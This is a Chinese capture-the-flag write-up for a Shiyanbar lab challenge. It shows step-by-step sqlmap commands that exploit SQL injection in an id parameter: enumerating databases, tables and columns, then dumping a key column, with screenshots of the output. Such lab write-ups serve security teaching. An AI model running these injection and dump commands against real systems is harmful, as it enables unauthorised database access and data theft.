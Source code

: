       .post img {
        border: 1px solid #D9D9D9;
      }

      .post a {
        color: #28A1C5;
      }
    </style>
  </head>
  <body>
    <div class="container">
      <div class="post">
        <h1 class="title">S.2.这个看起来有点简单</h1>
        <div class="show-content">
          <p>工具：sqlmap</p><p>看到id=，看源码是get方式提交数据，所以可以用自动化工具试一试。</p><p>按照一般套路，先找数据库。</p><p>再找数据库里的表，表里面还有列，一路找下去，输出目标列的内容就可以了<br>命令是这样的：sqlmap -u "http://ctf5.shiyanbar.com/8/index.php?id=1" --dbs</p><p>-u 指定url；--dbs表明注入目标是查找有哪些数据库</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-793337d3fe5d3d3b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-793337d3fe5d3d3b.png?imageMogr2/auto-orient/strip" data-image-slug="793337d3fe5d3d3b" data-width="482" data-height="85"><br><div class="image-caption"></div>
</div><hr><p>第一个数据库有四十多个表，第二个俩。第一个就省略了。</p><p>命令：sqlmap -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D my_db --tables</p><p><br></p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-2ce5b20ee03d331a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-2ce5b20ee03d331a.png?imageMogr2/auto-orient/strip" data-image-slug="2ce5b20ee03d331a" data-width="305" data-height="118"><br><div class="image-caption"></div>
</div><hr><p>其实也可以先查看当前使用的数据库，而不是每个数据库都看一看，这里只有两个，万一有十几个数据库怎么办。</p><p>sqlmap -u "http://ctf5.shiyanbar.com/8/index.php?id=1" --current-db</p><p><br></p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-4a9c4879647f6071.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-4a9c4879647f6071.png?imageMogr2/auto-orient/strip" data-image-slug="4a9c4879647f6071" data-width="455" data-height="76"><br><div class="image-caption"></div>
</div><hr><p>sqlmap -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D my_db -T thiskey --column</p><p>--columns：指定列出字段</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-a6261ae4649b44b0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-a6261ae4649b44b0.png?imageMogr2/auto-orient/strip" data-image-slug="a6261ae4649b44b0" data-width="336" data-height="154"><br><div class="image-caption"></div>
</div><hr><p>sqlmap -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D my_db -T thiskey -C k0y --dump</p><p>-T：指定要列出字段的表；-C ：指定要暴的字段；--dump：将结果导出</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-42ff2f356e30d051.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-42ff2f356e30d051.png?imageMogr2/auto-orient/strip" data-image-slug="42ff2f356e30d051" data-width="271" data-height="157"><br><div class="image-caption"></div>
</div>
        </div>
      </div>
    </div>
  </body>
</html>
